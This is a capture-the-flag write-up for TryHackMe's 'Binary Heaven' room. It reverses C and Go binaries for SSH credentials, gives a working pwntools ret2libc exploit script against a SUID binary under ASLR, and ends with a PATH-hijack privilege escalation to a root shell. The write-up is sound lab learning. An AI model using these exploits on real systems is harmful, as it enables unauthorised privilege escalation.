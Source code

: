 # Binary Heaven

https://tryhackme.com/room/binaryheaven

A binex heavy room - which normally I would avoid, as its an area I have little experience in (and all of that painful). But, being a new room with no writeups and needing to keep my streak up, I dived in :) Learned a bit, so thats awesome.

A scan of the box revealed just a single port, 22. The room started with giving you two binaries to reverse in order to get the SSH credentials.

## Part 1: angel_A and angel_B

These two binaries, A and B, contained the ssh username and password respectively. They were in C and Go, i.e. angel_A was 17kb and angel_B was ~2mb :D

### C Binary 'angel_A'

Opening this in ghidra showed code similar to the following:

```c
  printf("\x1b[36m\nSay my username >> \x1b[0m");
  fgets((char *)local_15,9,stdin);
  local_c = 0;
  while( true ) {
    if (7 < local_c) {
      puts("\x1b[32m\nCorrect! That is my name!\x1b[0m");
      return 0;
    }
    if (*(int *)(username + (long)local_c * 4) != (char)(local_15[local_c] ^ 4) + 8) break;
    local_c = local_c + 1;
  }
```

Following that username pointer back showed a block of bytes a bit like this:

```
           00104060 6b              undefined16Bh                     [0]                               XREF[3]:     Entry Point(*), main:00101202(*), 
                                                                                                                     main:00101209(R)  
           00104061 00              undefined100h                     [1]
           00104062 00              undefined100h                     [2]
           00104063 00              undefined100h                     [3]
           00104064 79              undefined179h                     [4]
           00104065 00              undefined100h                     [5]
           00104066 00              undefined100h                     [6]
           00104067 00              undefined100h                     [7]
           00104068 6d              undefined16Dh                     [8]
           00104069 00              undefined100h                     [9]
           0010406a 00              undefined100h                     [10]
           0010406b 00              undefined100h                     [11]
           0010406c 7e              undefined17Eh                     [12]
           0010406d 00              undefined100h                     [13]
           0010406e 00              undefined100h                     [14]
           ... etc
```

If you look closely, you can see every fourth byte looks a bit like its in the ascii range, which kind of matches with this code from the check: `username + (long)local_c * 4`, e.g. take the index we are up to, multiply it by four, and check against that byte. Furthermore, there was a `^ 4` permutation too. I took the bytes from the above block, put them in cyberchef, then messed with XORing until I got the username (it was obvious when the string was unmangled enough to resemble an english word).

### Go Binary 'angel_B'

This challenge was a lot harder. Being Go, opening it in ghidra showed a huge mess, and even though I found where the input is checked, it used some sort of memory check rather than string compare to do it. Furthermore, in a go binary, strings are not stored just as null terminated byte sets: instead they're all in one huge blog which, since a given go binary includes a lot of its standard library, has a huge mass of other strings in there too.

I tried a few things, including straight brute forcing the password using bash like `for i in $(cat all-english-words.txt); do (echo $i | ./angel_B && echo $i) >> result.txt; done;`, which took hours but achieved nothing. I also tried some custom go ghidra scripts from here: https://cujo.com/reverse-engineering-go-binaries-with-ghidra/, and I played around with [Delve](https://github.com/go-delve/delve), a GDB-like program for go debugging, which was fun but ultimately not useful.

In the end, the solution was simple: I reopened Ghidra, and re-examined the binary but on the analysis options screen, selected ALL the options (even the red experimental ones). For whatever reason, while making the decompiled code even more incomprehensible, this fixed the referencing of the memory address being checked at:

```c
  if ((puVar2 == (undefined *)0xb) &&
     (puVar14 = puVar2,
     runtime.memequal(CONCAT71(uVar8,uVar7),CONCAT71(uVar6,uVar5),(int)extraout_RDX,0xb,uVar9,uVar11
                      ,*puVar13,&DAT_004cad0b,0xb,cVar15), uVar4 = extraout_RDX_01, cVar15 != '\0'))
  {
```

that `DAT_004cad0b` above, when followed, led to the password in a sequence of plain ascii bytes. Good job Ghidra, got there in the end :)

## Part 2: Pwning 'pwn_me'

On the box was the user flag, and a suid binary running as the user `binexgod`, called `pwn_me`. When run, this would tell you the `system` location then wait for input. The system location changed each time - ASLR (address space layout randomisation) was enabled on the box.

This stumped me for a bit - as I said, I am not experienced at binex. I worked out the buffer size was roughly 28 characters and tried, like a blind caveman, shoving the system address into the overwrite position without luck. I went off to do some research, specifically around 'system' and binex.

This led me to ret2system, or more generally **ret2libc**, and I found a tutorial that proved excellent: https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc. This was exactly what I needed - in fact, pwn tools was already on the box! Except... ASLR was enabled? Meaning that I couldn't just hardcode the location of libc then add offsets...

In the end, perhaps more complicated than I needed to be, I worked out the difference in offset between system and '/bin/sh' in libc, then read the location of system from the program's out and added the offset as needed. The difference between the two was different on my test machine compared to the box, so after proving the method I had to tweak it before final exploitation. To calculate the differences I used `strings -a -t x /lib32/libc.so.6 | grep /bin/sh` to get the strings location, subbed from that `readelf -s /lib32/libc.so.6 | grep system` using a hex calculator, then added that into the script to add to the read system value. The final script (with my host machine's offset, not the targets) was:

```python
from pwn import *

p = process('./pwn_me')

p.recvline()
line2 = p.recvline()
system = int(line2.split(b': ')[1].split(b'\n')[0], 16)
binsh = system + 0x14733c

payload  = b'A' * 32
payload += p32(system)
payload += p32(0x0)
payload += p32(binsh)

p.clean()
p.sendline(payload)
p.interactive()
```

This worked and I had privesc and got binexgod's flag :)

## Part 3: Privesc to Root

The final privesc was a bit of a throwaway: there was another suid binary called `vuln`, which had the source file besides it:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

There was a script which printed an animated nyancat in the terminal (by this point I had added my public key to binexgod's ssh folder so I could just ssh in, getting a nice terminal) but I am pretty sure that was just there as a red herring. The above looked like a plain path exploit, and it was:

```bash
echo /bin/sh -p > echo
chmod +x ./echo
export PATH=/home/binexgod:$PATH
./vuln
```

And I had a root shell and the final flag :)
